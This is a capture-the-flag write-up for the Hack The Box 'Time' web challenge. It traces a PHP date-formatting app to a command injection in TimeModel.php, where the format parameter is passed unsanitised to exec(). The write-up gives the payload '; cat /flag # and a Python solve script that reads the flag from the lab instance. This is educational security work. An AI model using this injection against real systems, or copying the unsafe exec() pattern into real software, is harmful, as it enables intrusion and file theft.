

# Time

> Get the current date and time, anytime, anywhere!

------



Starting this deployable instance, we are greeted with a page that simply... tells the time.

We can see the source with `Ctrl+U`:

```html
<html>
<head>
  <meta name='author' content='makelaris, makelarisjr'>
  <meta name='viewport' content='width=device-width, initial-scale=1, shrink-to-fit=no'>
  <title>Time</title>
  <link link='preload' href='//fonts.googleapis.com/css2?family=Press+Start+2P&display=swap' rel='stylesheet'>
  <link rel='stylesheet' href='//maxcdn.bootstrapcdn.com/bootstrap/4.0.0/css/bootstrap.min.css' integrity='sha384-Gn5384xqQ1aoWXA+058RXPxPg6fy4IWvTNh0E263XmFcJlSAwiGgFAW/dAiS6JXm' crossorigin='anonymous'>
  <link rel='icon' href='/assets/favicon.png' />
  <link rel='stylesheet' href='/static/main.css' />
</head>
<body>
  <nav class="navbar navbar-dark bg-primary navbar-expand-lg mb-4">
    <a class="navbar-brand mb-0" href="?format=%H:%M:%S">🕒 What's the time?</a>
    <div class="collapse navbar-collapse" id="navbarSupportedContent">
      <ul class="navbar-nav">
        <li class="nav-item">
          <a class="nav-link" href="?format=%Y-%m-%d">📅 What's the date? <span class="sr-only">(current)</span></a>
        </li>
      </ul>
    </div>
  </nav>
  <div class="jumbotron vertical-center">
    <div class="container">
      <div class="container">
        <h1 class="jumbotron-heading">><span class='text-muted'>It's</span> 17:23:57<span class='text-muted'>.</span></h1>
      </div>
    </div>
  </div>
</body>
<script src="https://code.jquery.com/jquery-3.4.1.slim.min.js" integrity="sha384-J6qa4849blE2+poT4WnyKhv5vZF5SrPo0iEjwBvKU7imGFAV0wwj1yYfoRSJoZ+n" crossorigin="anonymous"></script>
<script src="https://cdn.jsdelivr.net/npm/popper.js@1.16.0/dist/umd/popper.min.js" integrity="sha384-Q6E9RHvbIyZFJoft+2mJbHaEWldlvI9IOYy5n3zV9zzTtmI3UksdQRVvoxMfooAo" crossorigin="anonymous"></script>
<script src="https://stackpath.bootstrapcdn.com/bootstrap/4.4.1/js/bootstrap.min.js" integrity="sha384-wfSDF2E50Y2D1uUdj0O3uMBJnjuUD4Ih7YwaYd1iqfktj0Uod8GCExl3Og8ifwB6" crossorigin="anonymous"></script>
</html>
```

Examining the links present in this, we can see a `?format=%Y-%m-%d` URL which indicates we could supply a string formatter to represent the date and time.

While this is handy, it doesn't seem like an attack vector.

Thankfully, the challenge provides source code that we can download and examine how this application works.

## Examining the source code

```
web_time
├── build_docker.sh
├── challenge
│   ├── assets
│   │   └── favicon.png
│   ├── controllers
│   │   └── TimeController.php
│   ├── index.php
│   ├── models
│   │   └── TimeModel.php
│   ├── Router.php
│   ├── static
│   │   └── main.css
│   └── views
│       └── index.php
├── config
│   ├── fpm.conf
│   ├── nginx.conf
│   └── supervisord.conf
├── Dockerfile
└── flag

```

Note that the `flag` file present is not the real flag -- just a placeholder. We still need to find the flag on the actual remote target.

First thing I do is examine the `Dockerfile` to find where the flag would  be located inside the remote instance.

```bash
FROM debian:buster-slim

# Setup user
RUN useradd www

# Install system packeges
RUN apt-get update && apt-get install -y supervisor nginx lsb-release wget

# Add repos
RUN wget -O /etc/apt/trusted.gpg.d/php.gpg https://packages.sury.org/php/apt.gpg
RUN echo "deb https://packages.sury.org/php/ $(lsb_release -sc) main" | tee /etc/apt/sources.list.d/php.list

# Install PHP dependencies
RUN apt update && apt install -y php7.4-fpm

# Configure php-fpm and nginx
COPY config/fpm.conf /etc/php/7.4/fpm/php-fpm.conf
COPY config/supervisord.conf /etc/supervisord.conf
COPY config/nginx.conf /etc/nginx/nginx.conf

# Copy challenge files
COPY challenge /www

# Setup permissions
RUN chown -R www:www /www /var/lib/nginx

# Copy flag
COPY flag /flag

# Expose the port nginx is listening on
EXPOSE 80

# Populate database and start supervisord
CMD /usr/bin/supervisord -c /etc/supervisord.conf
```

That tells me the flag is at `/flag`, so we at least know where to look once we find an attack vector.

Now we can look in the `challenge` folder. Given the directory names `controllers`, `views` and `models` I assume this is an MVC application. 

First I checked out the `views/index.php` file, but this seemed identical to what we were already seeing with "
View-Source". So I figured to better understand the logic behind it, I would check out the `controllers/TimeController.php`:

```php

<?php
class TimeController
{
    public function index($router)
    {
        $format = isset($_GET['format']) ? $_GET['format'] : '%H:%M:%S';
        $time = new TimeModel($format);
        return $router->view('index', ['time' => $time->getTime()]);
    }
}
```

This indicated a new `TimeModel` object was being created, and it used that to handle the supplied string format. With that said, I should check out what that `TimeModel` is made up of in the `models/TimeModel.php`

```php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->command = "date '+" . $format . "' 2>&1";
    }

    public function getTime()
    {
        $time = exec($this->command);
        $res  = isset($time) ? $time : '?';
        return $res;
    }
}
```

Aha! And there is our glaring vulnerability.

We can see the `$time = exec($this->command);` syntax runs a shell command, with the `command` variable being defined like so:

```php
$this->command = "date '+" . $format . "' 2>&1";
```

This has a clear **command injection vulnerability.**

We can "break out" of the string by prefixing input with a `'` single-quote, and then avoid the redirection at the end with adding a trailing `#` comment to our input.

That makes an easy request:

```
/?format='; cat /flag #
```

This is best to do with `curl` or Python in my opinion so the URL formatting and the `#` anchor symbol don't get in the way.


## Solve script

```python
#!/usr/bin/env python3

url = "http://159.65.58.156:30237/" # switch this out to your IP and port
import re

import requests

r = requests.get(url, params={"format": r"%H'; cat /flag #"})
print(re.findall(r"HTB{.*?}", r.text)[0])
```

```
HTB{tim3_t4lks...4nd_1t_s4ys_1ts_t1m3_t0_PWN!!!}
```